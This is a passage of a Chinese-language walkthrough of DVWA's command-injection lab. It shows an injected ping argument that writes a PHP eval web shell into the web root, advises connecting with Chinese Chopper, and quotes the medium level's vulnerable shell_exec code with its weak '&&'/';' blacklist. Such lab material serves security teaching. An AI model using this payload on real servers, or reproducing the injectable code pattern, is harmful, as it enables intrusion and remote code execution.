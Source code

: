 如果不写路径的的话，默认写入在**dir** 命令查看到的路径下，<br>

当然也可以直接写入到网站根目录下，<br>

命令：<br>
```php
127.0.0.1 && echo ^<?php eval($_POST[cmd]);?^> > D:\phpStudy\PHPTutorial\WWW\dvwa\shell.php
```

然后就可以直接上菜刀了，<br>

**注意：** **`<`**(左尖括号) 要使用 **`^`** 号来转义

----


### <span id = "medium">NO.2 Medium</span>

一样，还是先看看代码，<br/>

```php
<?php 

if( isset( $_POST[ 'Submit' ]  ) ) { 
    // Get input 
    $target = $_REQUEST[ 'ip' ]; 

    // Set blacklist 
    $substitutions = array( 
        '&&' => '', 
        ';'  => '', 
    ); 

    // Remove any of the charactars in the array (blacklist).  删除数组中的字符(黑名单)
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 

    // Determine OS and execute the ping command. 
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) { 
        // Windows 
        $cmd = shell_exec( 'ping  ' . $target ); 
    } 
    else { 
        // *nix 
        $cmd = shell_exec( 'ping  -c 4 ' . $target ); 
    } 

    // Feedback for the end user 
    echo "<pre>{$cmd}</pre>"; 
} 

?> 
```

----

<span id = "a7">**`array_keys()`**</span>函数返回包含数组中所有键名的一个新数组。<br>
